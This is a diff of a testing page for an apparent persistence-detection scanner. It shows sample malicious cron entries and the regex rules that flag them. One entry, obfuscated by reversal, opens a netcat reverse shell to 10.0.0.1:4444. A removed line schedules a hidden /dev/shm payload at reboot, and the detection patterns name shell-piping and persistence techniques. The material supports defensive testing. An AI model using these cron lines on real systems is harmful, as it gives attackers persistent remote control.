

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, the part around the change. GitHub-like rendering; pictures changed too: assets/test-cron.png; blank space fills up the shorter version.

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -64,14 +64,10 @@ WantedBy=multi-user.target
 
 ```cron
 * * * * * root echo "4444 1.0.0.01 hsab/nib/ e- cn" | rev | bash
-@reboot root echo "/dev/shm/.payload.sh" | at now + 1 minute
 ```
 
 **Matched Indicators (`rules.json`):**
 * `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
-* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)
-* `@reboot` — **HIGH** (*Non-standard schedule directive: Executes payload automatically on system startup*)
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
 * `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
````
Also changed, not shown: README.md (+1 -1 lines).
